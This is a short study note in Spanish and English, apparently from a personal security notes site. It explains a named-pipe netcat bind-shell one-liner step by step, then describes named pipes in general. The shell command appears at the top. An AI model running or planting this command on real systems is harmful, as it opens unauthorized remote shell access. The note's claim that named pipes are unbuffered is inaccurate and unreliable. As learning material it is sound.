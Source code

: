 ```yaml
---
{"dg-publish":true,"permalink":"/named-pipe/","hide":"true"}
---
```



```shell
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

1. El comando `mkfifo /tmp/f` crea un named pipe (tubería con nombre) en el directorio `/tmp` y lo llama `f`.
2. then starts a netcat listener
3. connects the **input of the listener to the output of the** named **pipe** `nc -lvnp <PORT> < /tmp/f`
4. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh` `| /bin/sh`
5. ending the stderr output stream into stdout, `2>&1`
6. and sending stdout itself into the input of the named pipe, thus completing the circle. `/bin/sh >/tmp/f`
![Pasted image 20240402184247.png](/img/user/attachments/Pasted%20image%2020240402184247.png)


Aquí te explico paso a paso lo que hace:

- `mkfifo`: Esta es la orden que le indica al sistema operativo que quieres crear un named pipe.
- `/tmp/f`: Esta es la ruta y el nombre del named pipe que se creará.
    - `/tmp`: Es un directorio temporal común en sistemas operativos Unix-like donde se almacenan archivos temporales.
    - `f`: Es el nombre arbitrario que se le asigna al named pipe. Puedes elegir cualquier nombre que te convenga.

Un named pipe funciona como un canal de comunicación unidireccional entre dos procesos. Un proceso puede escribir datos en el named pipe y otro proceso diferente puede leer esos mismos datos.

**Algunas características importantes de los named pipes:**

- **Unidireccional:** Los datos solo fluyen en una dirección, del proceso que escribe (productor) al proceso que lee (consumidor).
- **Sin búfer:** Los datos se escriben directamente en el named pipe y se leen inmediatamente por el otro proceso. No hay almacenamiento intermedio, lo que los hace adecuados para flujos de datos continuos.
- **Con nombre:** A diferencia de las tuberías estándar (sin nombre) creadas con el comando `pipe` en la terminal, los named pipes se crean con un nombre específico. Esto permite que múltiples procesos puedan acceder al mismo named pipe si conocen su nombre.